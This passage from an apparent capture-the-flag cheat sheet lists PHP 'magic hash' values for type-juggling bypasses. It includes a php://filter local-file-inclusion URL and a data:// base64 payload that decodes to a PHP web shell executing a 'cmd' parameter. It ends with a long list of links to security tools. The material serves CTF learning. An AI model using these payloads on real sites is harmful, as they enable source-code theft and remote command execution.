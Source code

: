 |ABJIHVY|0e755264355178451322893275696586|
|aaaXXAYW|0e540853622400160407992788832284|
|aabg7XSs|0e087386482136013740957780965295|
|aabC9RqS|0e041022518165728065344349536299|

| Plaintext | SHA1 Hash |
| --------- | --------- |
|aaroZmOk|0e66507019969427134894567494305185566735|
|aaK1STfY|0e76658526655756207688271159624026011393|
|aaO8zKZF|0e89257456677279068558073954252716165668|
|aa3OFF9m|0e36977786278517984959260394024281014729|


* `preg_replace`

	A bug in older versions of [PHP] where the user could get remote code execution
	
	[http://php.net/manual/en/function.preg-replace.php](http://php.net/manual/en/function.preg-replace.php)


* [`phpdc.phpr`][phpdc.phpr]

	A command-line tool to decode [`bcompiler`][bcompiler] compiled [PHP] code.


* [`php://filter` for Local File Inclusion](https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/)

	A bug in [PHP] where if GET HTTP variables in the URL are controlling the navigation of the web page, perhaps the source code is `include`-ing other files to be served to the user. This can be manipulated by using [PHP filters](http://php.net/manual/en/filters.php) to potentially retrieve source code. Example like so:

```
http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index
```


* `data://text/plain;base64`

	A [PHP] stream that can be taken advantage of if used and evaluated as an `include` resource or evaluated. Can be used for RCE: check out this writeup: [https://ctftime.org/writeup/8868](https://ctftime.org/writeup/8868) ... TL;DR:

```
http://103.5.112.91:1234/?cmd=whoami&page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4=
``` 


PDF Files
-------------

* `pdfinfo`	
	

[steghide]: http://steghide.sourceforge.net/
[snow]: http://www.darkside.com.au/snow/
[cribdrag.py]: https://github.com/SpiderLabs/cribdrag
[cribdrag]: https://github.com/SpiderLabs/cribdrag
[pcap]: https://en.wikipedia.org/wiki/Pcap
[PCAP]: https://en.wikipedia.org/wiki/Pcap
[Wireshark]: https://www.wireshark.org/
[Network Miner]: http://www.netresec.com/?page=NetworkMiner
[PCAPNG]: https://github.com/pcapng/pcapng
[pcapng]: https://github.com/pcapng/pcapng
[pdfcrack]: http://pdfcrack.sourceforge.net/index.html
[GitDumper.sh]: https://github.com/internetwache/GitTools
[pefile]: https://github.com/erocarrera/pefile
[Python]: https://www.python.org/
[PE]: https://en.wikipedia.org/wiki/Portable_Executable
[Portable Executable]: https://en.wikipedia.org/wiki/Portable_Executable
[hipshot]: https://bitbucket.org/eliteraspberries/hipshot
[QR code]: https://en.wikipedia.org/wiki/QR_code
[QR codes]: https://en.wikipedia.org/wiki/QR_code
[QR]: https://en.wikipedia.org/wiki/QR_code
[zbarimg]: https://linux.die.net/man/1/zbarimg
[Linux]: https://en.wikipedia.org/wiki/Linux
[Ubuntu]: https://en.wikipedia.org/wiki/Ubuntu_(operating_system)
[Wine]: https://en.wikipedia.org/wiki/Wine_(software)
[Detect DTMF Tones]: http://dialabc.com/sound/detect/index.html
[dnSpy]: https://github.com/0xd4d/dnSpy
[Windows]: https://en.wikipedia.org/wiki/Microsoft_Windows
[.NET]: https://en.wikipedia.org/wiki/.NET_Framework
[Vigenere Cipher]: https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher
[PDF]: https://en.wikipedia.org/wiki/Portable_Document_Format
[Playfair Cipher]: https://en.wikipedia.org/wiki/Playfair_cipher
[bcompiler]: http://php.net/manual/en/book.bcompiler.php
[PHP]: https://en.wikipedia.org/wiki/PHP
[GET]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[pdfdetach]: https://www.systutorials.com/docs/linux/man/1-pdfdetach/
[sqlmap]: https://github.com/sqlmapproject/sqlmap
[hachoir-subfile]: https://pypi.python.org/pypi/hachoir-subfile/0.5.3
[wget]: https://en.wikipedia.org/wiki/Wget
[git]: https://git-scm.com/
[Cross-site scripting]: https://en.wikipedia.org/wiki/Cross-site_scripting
[XSS]: https://en.wikipedia.org/wiki/Cross-site_scripting
[HTML]: https://en.wikipedia.org/wiki/HTML
[JavaScript]: https://en.wikipedia.org/wiki/JavaScript
[PEiD]: https://www.aldeid.com/wiki/PEiD
[wpscan]: https://wpscan.org/
[Ruby]: https://www.ruby-lang.org/en/
[Wordpress]: https://en.wikipedia.org/wiki/WordPress
[dumpzilla]: http://www.dumpzilla.org/
[hexed.it]: https://hexed.it/
[Magic Numbers]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Magic Number]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Edit This Cookie]: http://www.editthiscookie.com/
[cookie]: https://en.wikipedia.org/wiki/HTTP_cookie
[cookies]: https://en.wikipedia.org/wiki/HTTP_cookie
[formatStringExploiter]: http://formatstringexploiter.readthedocs.io/en/latest/index.html
[format string vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[printf vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[Java]: https://en.wikipedia.org/wiki/Java_(programming_language)
[JAR]: https://en.wikipedia.org/wiki/JAR_(file_format)
[OpenStego]: https://www.openstego.com/
[Stegsolve.jar]: http://www.caesum.com/handbook/stego.htm
[Stegsolve]: http://www.caesum.com/handbook/stego.htm
[PcapXray]: https://github.com/Srinivas11789/PcapXray
[Atbash Cipher]: https://en.wikipedia.org/wiki/Atbash
[TestDisk]: https://www.cgsecurity.org/Download_and_donate.php/testdisk-7.1-WIP.linux26.tar.bz2
[PNG]: https://en.wikipedia.org/wiki/Portable_Network_Graphics
[jd-gui]: https://github.com/java-decompiler/jd-gui
[dex2jar]: https://github.com/pxb1988/dex2jar
[apktool]: https://ibotpeaches.github.io/Apktool/
[RCE]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[remote code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[arbitrary code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[XSStrike]: https://github.com/UltimateHackers/XSStrike
[nishang]: https://github.com/samratashok/nishang
[Malboge]: https://en.wikipedia.org/wiki/Malbolge
[Piet]: https://esolangs.org/wiki/Piet
[npiet]: https://www.bertnase.de/npiet/
[LC4]: https://www.schneier.com/blog/archives/2018/05/lc4_another_pen.html
[Empire]: https://github.com/EmpireProject/Empire
[Base64]: https://en.wikipedia.org/wiki/Base64
[Base32]: https://en.wikipedia.org/wiki/Base32
[Base85]: https://en.wikipedia.org/wiki/Ascii85
[fcrackzip]: https://github.com/hyc/fcrackzip
[zsteg]: https://github.com/zed-0xff/zsteg
[jsteg]: https://github.com/lukechampine/jsteg
[jstego]: https://sourceforge.net/projects/jstego/
[StegCracker]: https://github.com/Paradoxis/StegCracker
[Base41]: https://github.com/sveljko/base41/blob/master/python/base41.py
[Base65535]: https://github.com/qntm/base65536
[Easy Python Decompiler]: https://github.com/aliansi/Easy-Python-Decompiler-v1.3.2